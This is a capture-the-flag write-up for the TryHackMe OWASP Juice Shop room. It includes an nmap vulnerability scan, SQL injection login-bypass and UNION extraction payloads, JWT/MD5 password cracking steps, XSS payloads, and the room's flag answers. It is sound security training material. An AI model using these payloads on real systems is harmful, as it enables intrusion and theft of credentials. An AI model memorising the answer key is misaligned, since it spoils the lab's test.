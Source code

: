 #OWASP Juice Shop (tryhackme)

##nmap initial scan
```
# Nmap 7.60 scan initiated Mon May 25 13:21:02 2020 as: nmap -sC -sV -p- --script=default,vuln -oN nmap/output -T3 10.10.12.237
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.12.237
Host is up (0.22s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:e2:a7:4c:4f:43:49:7d:32:bb:79:47:cf:3e:4c:e9 (RSA)
|   256 a9:06:05:52:66:d9:ef:07:72:3d:bc:0c:db:d9:eb:a9 (ECDSA)
|_  256 a9:24:08:59:14:be:4a:8c:e4:79:2f:56:8c:3a:99:a9 (EdDSA)
80/tcp open  http    Node.js Express framework
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-majordomo2-dir-traversal: ERROR: Script execution failed (use -d to debug)
| http-phpmyadmin-dir-traversal: 
|   VULNERABLE:
|   phpMyAdmin grab_globals.lib.php subform Parameter Traversal Local File Inclusion
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2005-3299
|       PHP file inclusion vulnerability in grab_globals.lib.php in phpMyAdmin 2.6.4 and 2.6.4-pl1 allows remote attackers to include local files via the $__redirect parameter, possibly involving the subform array.
|       
|     Disclosure date: 2005-10-nil
|     Extra information:
|       ../../../../../etc/passwd :
|   <!doctype html>
|   <html lang="en">
|   <head>
|     <meta charset="utf-8">
|     <title>OWASP Juice Shop</title>
|     <base href="/">
|     <meta name="description" content="An intentionally insecure JavaScript Web Application">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link id="favicon" rel="icon" type="image/x-icon" href="favicon.ico">
|     <link href="https://fonts.googleapis.com/icon?family=Material Icons" rel="stylesheet">
|     <link rel="stylesheet" type="text/css" href="//cdnjs.cloudflare.com/ajax/libs/cookieconsent2/3.1.0/cookieconsent.min.css" />
|     <script src="//cdnjs.cloudflare.com/ajax/libs/cookieconsent2/3.1.0/cookieconsent.min.js"></script>
|     <script>
|       window.addEventListener("load", function(){
|         window.cookieconsent.initialise({
|           "palette": {
|             "popup": { "background": "#546e7a", "text": "#ffffff" },
|             "button": { "background": "#558b2f", "text": "#ffffff" }
|           },
|           "theme": "classic",
|           "position": "bottom-right",
|           "content": { "message": "This website uses fruit cookies to ensure you get the juiciest tracking experience.", "dismiss": "Me want it!", "link": "But me wait!", "href": "https://www.youtube.com/watch?v=9PnbKL3wuH4" }
|         })});
|     </script>
|   <link rel="stylesheet" href="styles.css"></head>
|   <body class="mat-app-background bluegrey-lightgreen-theme">
|     <app-root></app-root>
|   <script type="text/javascript" src="runtime.js"></script><script type="text/javascript" src="polyfills.js"></script><script type="text/javascript" src="vendor.js"></script><script type="text/javascript" src="main.js"></script></body>
|   </html>
|   
|     References:
|       http://www.exploit-db.com/exploits/1244/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3299
| http-robots.txt: 1 disallowed entry 
|_/ftp
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: OWASP Juice Shop
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  CVE:CVE-2011-3192  OSVDB:74721
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       http://seclists.org/fulldisclosure/2011/Aug/175
|       http://osvdb.org/74721
|       http://nessus.org/plugins/index.php?view=single&id=55976
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 25 14:04:04 2020 -- 1 IP address (1 host up) scanned in 2582.50 seconds

```


###[Task 1] Connect To Our Network
1. Connect to our Network
```
No answer needed
```

###[Task 2] Configure Burp(If you haven't already)
1. Set up Burp
```
No answer needed
```

###[Task 3] Walk through the application
1. Walk through the application and use the functionality available
```
No answer needed
```

###[Task 4] Injection
1. Log in with the administrator's user account using SQL Injection
```
No aswer needed
```

To log in to the administrator account we just need trick the query send through the backend to the database system

What the standard the query supposed to look like...
```
SELECT * FROM <users> WHERE email='$email' AND password='md5($password)'
```
With this knowledge we can manipulate the $email variable by closing the string and appending what we want to bypass that, and just commnent the other stuff that we don't want

Query:
```
'OR 1=1 -- -
```

###[Task 5] Broken Authentication
1. reset Jim's password using the forgotten password mechanism - what was the answer to the secret question?
```
samuel
```

First way:
SQLi from search
Query progress
```
/rest/product/search?q='

')) UNION SELECT 1,2,3,4,5,6,7,8 -- -

lalala')) UNION SELECT name,tbl_name,3,4,5,6,7,8 FROM SQLITE_MASTER WHERE type="table"/*

lalala'))+UNION+SELECT+sql,tbl_name,3,4,5,6,7,8+FROM+SQLITE_MASTER+WHERE+tbl_name%3d"SecurityAnswers"/*

lalala')) UNION SELECT id,UserId,answer,4,5,6,7,8 FROM SecurityAnswers/*

47bd24c3702cf53594f1e14320f798512b3cbb492fdae4305fe30607f81588cf
```


Second way:
look at main.js, see that there is a  path to administration, then look at the recycling order from user 2 (jim). there's said it's from starfleet, star trek reference just search for the eldest sibling...

2. What is the administrator password?
```
admin123
```

When we logged in as the administrator we can see from the request on burpsuite that there is somesort of base64 token, but not all the string can be decoded by base64, looking at the starting string after decoding it we can see that it is a JWT token. And there's a lot of information from that token... and there is a hashed password there... MD5 hashed password to be exact. then... just dehash that using john, or hashcat, or any other tools you want

###[Task 6] Sensitive Data Exposure
1. Access a confidential document and enter the name of the first file with the extension ".md"
```
acquisitions.md
```

There is a robots.txt file and there we can see that there is /ftp directory...

###[Task 7] Broken Access Control
1. Access the administration section of the store - What is the name of the page?
```
administration
```

Look at main.js, there is a path through administrator

2. Access someone else's basket
```
No answer needed
```

Check your browser storage, there is an id equavalent to UserId there

3. Get rid of all 5 star customer feedback
```
No answer needed
```

Just delete it from administration page

###[Task 8] Cross Site Scripting(XSS)
1. Carry out reflected XSS using Tracking Orders
```
No answer needed
```

Injection
```
<iframe src="javascript:alert(`xss`)">
```

2. Carry out XSS using the Search field?
```
No answer needed
```

Injection
```
<img src=x onerror=alert('XSS');>
```


Good reference:
[Challenge solutions - Pwning OWASP Juice Shop](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/appendix/solutions.html)